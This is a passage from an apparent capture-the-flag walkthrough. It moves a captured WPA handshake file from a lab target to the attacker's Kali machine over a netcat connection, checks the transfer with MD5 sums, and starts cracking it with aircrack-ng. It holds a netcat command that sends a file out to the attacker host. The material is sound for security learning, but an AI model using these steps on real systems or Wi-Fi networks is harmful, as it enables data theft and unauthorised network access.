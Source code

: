 We can attempt to crack the captured key using `aircrack-ng`. First we have to find a way to transfer the file to our system. Attempting to open a local python server on port 8080, had no result as `python` and `python3` binaries, are not found on our target's system.

Instead, we will user `netcat` to host the file, and then fetch it from our machine.

***Target Machine***: Make the file available to target's port 8888

```bash
nc -w 3 10.10.14.66 8888 < captured.cap
```

***Host Machine***: Receive file from target's port 8888

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lp 8888 > captured.cap
```

The file `captured.cap` should be available on our machine. To check the received file integrity, we check and compare the two MD5 checksums.

***Target Machine***: Check `captured.cap` checksum

```bash
md5sum captured.cap
2a86b639f23067dd95a5e0b5f616ef20  captured.cap
```

***Host Machine***: Check the received file's checksum

```bash
┌──(kali㉿kali)-[~]
└─$ md5sum captured.cap
2a86b639f23067dd95a5e0b5f616ef20  captured.cap
```

If the checksums do not match, the file hasn't been transferred correctly.

Viewing the received file with `wireshark`, we notice the targeted SSID: `Too_cl0se_to_th3_Sun`. Then multiple deauthentication requests are sent, to probably capture the handshake. We can crack the captured key, using `aircrack-ng`.

```bash
┌──(kali㉿kali)-[~]
└─$ aircrack-ng captured.cap 
Reading packets, please wait...
Opening captured.cap
Resetting EAPOL Handshake decoder state.
Resetting EAPOL Handshake decoder state.
Read 6498 packets.

   #  BSSID              ESSID                     Encryption

   1  F4:EC:38:AB:A8:A9  Too_cl0se_to_th3_Sun      WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening captured.cap
Resetting EAPOL Handshake decoder state.
Resetting EAPOL Handshake decoder state.
Read 6498 packets.

1 potential targets

Please specify a dictionary (option -w).
```

